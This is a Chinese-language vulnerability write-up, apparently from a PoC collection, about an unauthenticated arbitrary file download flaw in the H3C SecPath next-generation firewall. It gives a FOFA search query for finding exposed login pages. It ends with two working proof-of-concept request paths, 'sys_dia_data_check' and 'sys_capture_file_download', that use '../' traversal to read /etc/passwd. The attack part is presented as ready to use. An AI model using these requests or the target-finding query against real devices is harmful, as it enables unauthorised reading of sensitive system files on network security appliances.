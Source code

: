 # H3C SecPath下一代防火墙 任意文件下载漏洞

## 漏洞描述

H3C SecPath 下一代防火墙  存在功能点导致任意文件下载漏洞，攻击者通过漏洞可以获取敏感信息

## 漏洞影响

```
H3C SecPath
```

## FOFA

```
title="Web user login"
```

## 漏洞复现

登录页面如下

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202110914717.png)

存在漏洞点的功能有两个

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202110914728.png)

点击下载抓包更改请求

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202110914422.png)

并且在未身份验证的情况中，也可以请求下载敏感文件

验证POC

```plain
/webui/?g=sys_dia_data_check&file_name=../../etc/passwd

/webui/?
g=sys_capture_file_download&name=../../../../../../../../etc/passwd
```